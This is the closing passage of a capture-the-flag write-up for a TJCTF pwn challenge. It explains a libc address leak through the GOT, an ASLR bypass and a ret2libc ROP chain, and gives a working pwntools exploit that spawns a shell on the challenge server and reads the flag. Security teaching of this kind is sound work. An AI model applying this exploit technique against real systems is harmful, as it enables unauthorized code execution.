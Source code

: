 Now that we can read arbitrary memory we can read the address of the libc function `puts` from the global offset table at `got.puts`.
This allows us to compute the address of libc, which is located at a random address because of address space layout randomization (ASLR).

After setting `libc.address`, `pwntools` automatically updates the location of all symbols.
We can then simply put a pointer to the string `"/bin/sh\x00"` into rdi and return to `system`.
To avoid segmentation faults we have to align the stack to 16 bytes by jumping directly to a `ret` instruction, which pops 8 bytes from the stack.
For some reason this wasn't necessary in my local virtual machine.

```python
context.binary = chall = ELF("bin/chall")

with remote("tjc.tf", 31705) as p:
    p.recvline() # Where am I going today?

    puts_ptr = u64(read_bytes_and_ret_to_main(chall.symbols["got.puts"], 8))

    libc = ELF("docker/srv/lib/x86_64-linux-gnu/libc-2.31.so")
    libc.address = puts_ptr - libc.symbols["puts"]
    assert libc.symbols["puts"] == puts_ptr

    rop = ROP(chall)
    rop(rdi = p64(next(libc.search(b"/bin/sh\x00"))))
    rop.raw(rop.find_gadget(["ret"]).address) # required in ubuntu docker to align the stack
    rop.raw(p64(libc.symbols["system"]))
    send_one_line(p, b"x" * (16 + 8) + bytes(rop))

    pause(1)
    p.sendline(b"cat flag.txt\n")
    print(p.recvall(timeout = 1))
```


## Failed Attempts

```python
None
```

## Alternative Solutions

I haven't looked at alternative solutions.

## Lessons Learned

This was the first time that I've used `pwntools`.
The biggest lesson that I've learned was that stack alignment is more important than I've thought.

## References

- ctftime tjctf: https://ctftime.org/event/1599
- pwntools: https://docs.pwntools.com/en/stable/
- cutter disassembler: https://github.com/rizinorg/cutter
- System V ABI: https://refspecs.linuxbase.org/elf/x86_64-abi-0.99.pdf
